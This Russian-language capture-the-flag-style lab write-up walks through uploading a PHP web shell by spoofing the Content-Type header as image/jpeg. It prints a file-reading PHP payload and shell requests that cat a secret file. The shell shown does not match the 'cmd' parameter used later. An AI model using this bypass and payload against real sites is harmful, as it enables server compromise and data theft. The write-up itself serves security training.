



# Лабораторная работа: Загрузка веб-оболочки с обходом ограничений Content-Type.

В этой лабораторной работе используется уязвимая функция загрузки изображений. Она пытается предотвратить загрузку пользователями файлов неожиданных типов, но для проверки этого используется проверка входных данных, управляемых пользователем.

Для решения лабораторной работы загрузите простую PHP-оболочку и используйте её для извлечения содержимого файла `/home/carlos/secret`. Отправьте этот секрет, используя кнопку, расположенную на баннере лабораторной работы.

Вы можете войти в свою учетную запись, используя следующие учетные данные: `wiener:peter`.

Ход работы:

Создаем скрипт php-файл с содержимым:

`<?php echo file_get_contents('/home/carlos/secret'); ?>`

Пытаемся загрузить файл, выдает ошибку, которая говорит, что формат файла не являтся jpeg, png...

Смотрим на форму:

Обратим внимание на строку:

`Content-Type: application/octet-stream`

Говорит, что формат не поддерживается, меняем его на:

`Content-Type: image/jpeg`

Видим, что файл удалось загрузить, далее заходим на изображение 

`0a50005904bfe13480f58a0d00cf003d.web-security-academy.net/files/avatars/test.php`

Отправляем его в Repeater:

Изменили `GET /files/avatars/test.php?cmd=ls HTTP/2` на `GET /files/avatars/test.php?cmd=cat+/home/carlos/secret HTTP/2` и получили секрет!

Далее вводим секрет:

Успех!
